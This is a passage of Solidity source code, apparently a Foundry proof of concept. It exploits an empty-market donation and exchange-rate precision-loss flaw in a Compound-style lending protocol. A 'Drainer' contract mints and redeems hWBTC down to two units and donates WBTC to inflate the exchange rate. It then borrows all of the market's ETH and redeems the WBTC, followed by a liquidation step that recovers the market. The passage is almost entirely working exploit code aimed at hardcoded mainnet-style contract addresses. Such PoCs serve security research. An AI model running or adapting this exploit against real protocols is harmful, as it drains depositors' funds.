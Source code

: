 ``` solidity

    uint256 exchangeRate = hWBTC.exchangeRateStored();
    uint256 liquidationIncentiveMantissa = 1080000000000000000;
    uint256 priceBorrowedMantissa = priceOracle.getUnderlyingPrice(address(hEther));
    uint256 priceCollateralMantissa = priceOracle.getUnderlyingPrice(address(hWBTC));
    uint256 hTokenAmount = 1;
    uint256 liquidateAmount = 1e18/(priceBorrowedMantissa * liquidationIncentiveMantissa / (exchangeRate * hTokenAmount * priceCollateralMantissa / 1e18)) + 1;
    hEther.liquidateBorrow{value: liquidateAmount}(address(drainer), address(hWBTC)); // liquidate to get the 1 hWBTC
    hWBTC.redeem(1); // redeem to recover the empty market
    
    console.log("after attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());
}

contract Drainer is Test {
    ICErc20 WBTC = ICErc20(0x68f180fcCe6836688e9084f035309E29Bf0A2095);
    ICErc20 hWBTC = ICErc20(0x35594E4992DFefcB0C20EC487d7af22a30bDec60);
    IComptroller comptroller = IComptroller(0x5a5755E1916F547D04eF43176d4cbe0de4503d5d);
    ICEther hEther;

    constructor(ICEther token) payable {
        hEther = token;
        WBTC.approve(address(hWBTC), type(uint256).max);
        hWBTC.mint(1 * 1e8);
        // hWBTC.redeem(hWBTC.totalSupply() - 1);
        hWBTC.redeem(hWBTC.totalSupply() - 2);  // get 2 hWBTC, the totalSupply is 2
    
        uint256 donationAmount = WBTC.balanceOf(address(this));
        WBTC.transfer(address(hWBTC), donationAmount);
        console.log("donationAmount:", donationAmount);

        address[] memory cTokens = new address[](1);
        cTokens[0] = address(hWBTC);
        comptroller.enterMarkets(cTokens);

        uint256 cWBTCAmountIn = 1;
        uint256 exchangeRate = hWBTC.exchangeRateStored();
        uint256 precisionLossMaxAmount = (cWBTCAmountIn + 1) * exchangeRate / 1e18;
        console.log("precisionLossMaxAmount:", precisionLossMaxAmount);

        uint256 borrowAmount = hEther.getCash();
        hEther.borrow(borrowAmount); // using cWBTC as collateral to lend ETH
        payable(address(msg.sender)).transfer(address(this).balance);

        uint256 redeemAmount;
        if (precisionLossMaxAmount > donationAmount) {
            redeemAmount = donationAmount;
        } else {
            redeemAmount = precisionLossMaxAmount;
        }
        console.log("redeemAmount:", redeemAmount);
        hWBTC.redeemUnderlying(redeemAmount);  // due to precision loss, only 1hWBTC was used to redeem all WBTCs
        
        WBTC.transfer(msg.sender, WBTC.balanceOf(address(this)));
    }
}
```

